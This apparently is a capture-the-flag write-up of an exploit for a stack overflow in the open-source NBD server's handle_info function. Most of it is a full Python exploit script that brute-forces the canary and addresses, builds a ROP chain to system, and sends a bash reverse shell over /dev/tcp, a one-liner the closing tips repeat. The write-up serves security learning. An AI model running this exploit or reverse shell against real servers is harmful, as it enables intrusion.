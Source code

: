 ```yaml
---
title: Who Moved My Block-Real World Stack Overflow
date: 2022-01-23 16:22:21
tags: 
layout: post
---
```

Who Moved My Block, rwctf 2022
<!--more-->

# Prelude

Real world CTF is my first CTF in 2022, I had a great time with my teammates@r3kapig! Especially thanks to @2019 @crazyman, we solved the challenge together!

This challenge is my first real-world challenge. Someone calls it “clone and pwn” challenge, which means we should clone the latest version of the project and pwn it with 0day vulnerability.

Also, nbd is a small project and we could finish the code review part quickly.

# Set-up
Challenge Attachment: `https://github.com/n132/attachment/blob/main/RWCTF_2022/WhoMovedMyBlock_471d96239f86cb3f7c61991b44d74623.zip`

Project Link: [https://github.com/NetworkBlockDevice/nbd](https://github.com/NetworkBlockDevice/nbd)

Commit: 5750003711b8050bad3ddaf5196201ef419ce15d

Make:

```bash
./configure --enable-debug && \\
make && \\
make install
```

# Solution

The solution is similar to **CVE-2018-1160, Metatalk in Hitcon 2021.**

1. Read the source code and find the vulnerability.
2. I find two vulnerabilities one `Heap-Overflow` and one `Stack-Overflow`in function `handle-info` 
3. The `heap-overflow` is hard to use, cuz we need to construct the heap Fengshui carefully.
4. While the `Stack-Overflow` one is easy to use, we could get the addresses of pie/heap/canary by judging the statement of connection (crash or hang).
5. ROP to get a reversed shell

# Exp

```python
from code import interact
from distutils.dir_util import copy_tree
from re import sub
from pwn import *
import subprocess
#context.log_level = 'debug'
context.arch='amd64'
DEBUG = 0
if(DEBUG):
    ip = "0.0.0.0"
    port = 6666
else:
    ip = "47.242.113.232"
    port =49265
p = None
ru = lambda x: p.recvuntil(x)
rl = lambda  : p.recvline()
ra = lambda  : p.recvall()
rv = lambda x: p.recv(x)
sn = lambda x: p.send(x)
sl = lambda x: p.sendline(x) 
sa = lambda x,y: p.sendafter(x,y) 
def pow():
    ru('sha256("')
    tmp = ru('"')[:-1].decode()
    c1 = "gcc ./pow.c -lcrypto -o ppp".split(' ')
    c2 = f"./ppp {tmp}".split(' ')
    c3 = "rm ./ppp".split(' ')
    subp = subprocess.Popen(c1)
    subp.wait()
    print(c2)
    subp = subprocess.Popen(c2)
    res,_ = subp.communicate()
    subp = subprocess.Popen(c3)
    subp.wait()
    print(res,_)
def anum(n):
    sn(p32(n,endian='big'))
def NBD_OPT_EXPORT_NAME(payload):
    anum(1)
    anum(len(payload))
    sn(payload)
def NBD_OPT_LIST():#baned
    sn(p64(0x54504f4556414849))
    anum(3)
    anum(1)    
def NBD_OPT_STARTTLS(size,c):#Set stack
    anum(5)
    anum(size)
    sn(c)
def NBD_OPT_INFO(buf):
    anum(7)
    anum(len(buf)+4)
    anum(len(buf)+4)
    sn(buf)
    p.read()
    pad = b" "*0x10+b'''sleep 3;bash -c 'exec bash -i &>/dev/tcp/0.0.0.0/12345 <&1';'''*0x6
    sn(pad.ljust(len(buf)+4,b'\0'))
    sn(p16(0,endian='big'))
    p.readuntil("nown")
def single_req(base,guess):
    global p
    p = remote(ip,port)
    sa("OPT\x00\x03",p32(0))
    sn(p64(0x54504f4556414849))
    NBD_OPT_INFO(base+guess)
    p.read(timeout=1)
def req(base,length):
    res = b""
    global p
    for x in range(length):
        flag=0
        for _ in range(0x100):
            log.success(f"Trying Pos:{x}:{hex(_)}")
            try:
            #if(1):
                guess = _.to_bytes(1,'little')
                single_req(base+res,guess)
                res+=guess
                flag=1
                break
            except:
                p.close()
                continue
        if(not flag):
            return 0
        log.warning(hex(u64(res.ljust(8,b'\0'))))
    res = u64(res.ljust(8,b'\0'))
    log.warning(hex(res))
    input()
    return res
def canary():
    base=b"A"*(0x408)+b'\0'
    length=7
    return req(base,length)
def leak_heap():
    global p

    base = b"A"*(0x408)+ p64(canary_val) +b"\0"*0x18
    length = 6
    return req(base,length)
def leak_pie():
    global p
    base = b"A"*(0x408)+ p64(canary_val) +b"\0"*0x18
    base+= p64(heap)+p64(0)+p64(heap-0x100)+p64(0)+b"\xea"
    length= 5
    return req(base,length)
def exploit(c):
    global p
    p = remote(ip,port)
    sa("OPT\x00\x03",p32(0))
    sn(p64(0x54504f4556414849))
    pay = b"A"*(0x408)+p64(canary_val)+b"\0"*0x18
    pay += p64(heap)+p64(0)+p64(heap-0x100)+p64(0)+c
    NBD_OPT_INFO(pay)
    p.interactive()
if __name__ == "__main__":
    canary_val = canary()
    heap  = leak_heap()
    pie = leak_pie()-0x96ea

    ret = 0x000000000000301a+pie 
    rdi = 0x0000000000004a58+pie
    system = 0x3bb0+pie

    
    r = flat([
        ret,rdi,heap+0x100*2,system
    ])
    exploit(r)
```

# Summary

It’s an interesting challenge and it’s really “real”. That’s what we would meet in the real life. We may learn lots of heap vulnerability exploiting skills in CTF but in daily work, exploiting through Stack Overflow is a more common situation!

I learned some useful skills from my teammates during the contest:

- Use `sleep xxx;` to judge if the remote server is running our command.
- `system` in `C` behave differently from the shell. `bash -c 'exec bash -i &>/dev/tcp/<ip address>/<port> <&1';` could work well. Before attacking remotely, we could test the command locally first.